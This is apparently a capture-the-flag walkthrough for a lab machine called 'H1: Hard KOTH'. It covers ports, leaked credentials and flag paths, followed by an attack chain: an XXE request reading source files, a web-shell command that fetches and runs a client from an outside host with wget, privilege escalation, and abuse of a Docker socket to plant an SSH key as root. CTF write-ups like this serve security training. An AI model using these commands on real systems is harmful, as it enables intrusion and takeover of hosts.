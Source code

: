 # H1: Hard KOTH machine

Four websites, 80, 81, 82 and 8888

80 posts to an api/user/login. api/user says no permissions, api/ reveals the api name and stack

81 is a product site. contains a hidden access_log that seems to track all path and user agents that access it. this reveals at the top a /s3cr3t_area, but that just contains a hackerman image

82 appears to have some sort of LFI via its view?image= and feed?dir=, but seems constrained to the /hill directory. dir can view a directory down, revealing the file contents of the website, but view cant see this

8888 contains a simple api where /users provide some creds: davelarkin:supersecurehuh. these work on ssh port 2222 to give access to a container
the container has the docker sock mounted (at /var/docker.sock), but this seems unusable without root access, and I couldn't see how to privesc

## flags

- /root/root.txt
- /root/containter1_flag.txt
- /var/www/container2_flag.txt (in 81 docker)
- /home/container3_flag.txt
- /home/davelarkin/container4_flag.txt (in 8888 docker)

## port 80 path

- /api/user?xml is vulnerable to xxe. posting something like the below will allow file reading:

  ```
  POST /api/user?xml HTTP/1.1
  Host: 10.10.138.24
  Upgrade-Insecure-Requests: 1
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
  Accept-Encoding: gzip, deflate
  Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
  Connection: close
  Content-Type: application/xml; charset=utf-8
  Content-Length: 190

  <?xml version="1.0"?>
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/controllers/Website.php"> ]>
    <data>
      <id>
    &xxe;
      </id>
    </data>
  ```
  
- reading website.php reveals the cookie to access internal pages, which can be used to access the shell page and execute commands (here downloading a rush client with curl):

  ```
  curl -d "cmd=wget+10.10.29.36:1234/client+-O+/tmp/client+%26%26+chmod+777+/tmp/client+%26%26+/tmp/client" -H "Cookie: token=1f7f97c3a7aa4a75194768b58ad8a71d" http://10.10.138.24/shell
  ```
  
- on the box, you can su to the admin user via `ssh admin@localhost -t bash` with password `niceWorkHackerm4n`, recovered from the api.php file
- admin's path is constrained, so use `export PATH=/bin:/usr/bin` to fix it
- admin can jump to root via `sudo -i`
- grab a static copy of curl for the box, e.g. via `wget https://github.com/moparisthebest/static-curl/releases/latest/download/curl-amd64`, and get it on the machine
- use this to abuse the local docker.sock to create a container with the host filesystem mounted (put your public key in place):

  ```
  ./curl -X POST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock http://localhost/containers/create -d '{"Detach":true,"AttachStdin":false,"AttachStdout":true,"AttachStderr":true,"Tty":false,"Image":"c3:latest","HostConfig":{"Binds": ["/:/var/tmp"]},"Cmd":["sh", "-c", "echo <public key> >> /var/tmp/root/.ssh/authorized_keys"]}'
  ```
  This will output an id used in the next step.
- start the container: 
  
  ```
  ./curl -X POST -H "Content-Type:application/json" --unix-socket /var/run/docker.sock http://localhost/containers/<id here>/start
  ```
  
Then you should be able to straight `ssh root@<boxid>`.
